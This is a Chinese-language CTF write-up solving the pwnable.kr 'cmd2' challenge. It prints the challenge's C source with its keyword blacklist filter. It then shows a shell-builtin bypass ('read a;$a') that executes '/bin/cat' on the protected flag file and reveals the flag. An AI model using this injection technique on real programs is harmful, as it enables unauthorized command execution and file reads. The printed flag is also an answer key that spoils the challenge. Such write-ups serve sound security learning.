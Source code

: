 ```yaml
---
title: pwnable.kr-cmd2
date: 2018-01-28 14:35:22
tags: [pwnable.kr,PWN]
categories: CTF
copyright: true
---
```

## 前言
这和上一道题[pwnable.kr-cmd1](http://www.ktstartblog.top/index.php/archives/131/)相似，不过提升了难度，但总体还是很简单，适合我这样的新手。
## 分析
贴出`cmd2.c`的源码
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}

```
整个程序和上一道题逻辑类似。程序首先就把传入的环境变量全部删除，然后重新定义`PATH`变量，接着进行关键字检查，最后执行传入的第一个参数。要想突破障碍getflag首先得清楚障碍是什么？
- 环境变量被删除。
这将使得无法通过环境变量来带入命令执行。
- `PATH`变量被乱写
这将无法直接执行外部命令。
- `filter`函数关键字检查黑名单
这个函数还是使用黑名单，但是把关键的字符和字符串都过滤了。无法使用绝对路径，无法重写`PATH`变量。
那么程序就没有弱点了吗？还是有的。
- 程序可以执行内部命令
- `filter`函数使用黑名单，存在绕过可能。
于是就有了下面的思路。我可以执行`read`命令写入一个环境变量，然后执行这个环境变量即可。
```bash
cmd2@ubuntu:~$ ./cmd2 "read a;\$a"
read a;$a
/bin/cat /home/cmd2/flag
FuN_w1th_5h3ll_v4riabl3s_haha
cmd2@ubuntu:~$ 

```
## 知识点
`read`命令从键盘读取变量的值，通常用在shell脚本中与用户进行交互的场合。该命令可以一次读取多个变量的值，变量和输入的值都需要使用空格隔开。在read命令后面，如果没有指定变量名，读取的数据将被自动赋值给特定的变量REPLY 。
## 总结
这道题在掌握了linux命令的情况下也还是挺简单的，对于我这样的新手来说还是学到了不少东西，对命令的使用也更深刻。
